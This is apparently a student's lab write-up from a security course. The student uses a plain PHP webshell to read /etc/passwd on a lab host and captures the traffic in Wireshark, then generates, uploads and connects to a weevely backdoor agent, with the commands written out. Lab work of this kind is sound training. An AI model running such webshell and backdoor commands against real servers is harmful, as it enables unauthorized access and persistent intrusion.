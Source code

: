 # Lab 8.1 - Weevely💡

Webshells like simple-backdoor.php are effective but are not terribly stealthy. Basic IDS/IPS systems will be able to detect "shell-like" behavior by seeing content that looks like commands, prompts and sensitive files like /etc/passwd.

Wireshark Capture of traditional webshellTarget pippin with a traditional webshell (one without encryption or obfuscation). Capture a dump of /etc/passwd using Wireshark on your wg0 interface.



## Deliverable 1. Provide a screenshot that shows the relevant tcp stream similar to the one below. Create a capture filter on port 80 when you do so.

![image-20221105205902211](./images/image-20221105205902211-1667696347658-1.png)

`curl 'http://10.0.5.25/upload/navarro.php?cmd=cat+/etc/passwd'`

![img](https://lh3.googleusercontent.com/ZvriBmNKkEeZZbJwIImROwXt_9QpjiwcG6_a3YaeM6j372IH0iOQk0OSr8x_l4OpCt_6j8tq2wfIYdddEs7zLuqhfHKykU3lnaTF3VXzonbi-2LUtqfHFtiyUvOIux3Mp_zQI8txeadEByYLQ0cnP_iG3I1YD7rc_FDiJUQzqwzJ74gIBOUe6VLgd4F8gw)



## Deliverable 2. Investigate weevely (a tool in kali). Create a php agent that is uniquely named, upload the agent to pippin and carry on a session similar to the one shown in the screenshot. Provide a screenshot of your session

To generate an agent I used the following link https://null-byte.wonderhowto.com/forum/hiob-generate-web-backdoors-php-using-weevely-kali-linux-0158905/

according to null-byte.wonderhowto.com. weevely generate [password] [path for agent to be saved]



First I used the following command to generate weevely:

`weevely generate LOL /home/champuser/Desktop/week8/door3.php`

And then uploaded the file inside the ftp server:

![2](./images/2.png)

Next I used the following command to login:

`weevely http://10.0.5.25/upload/door3.php LOL`

![3](./images/3.png)
































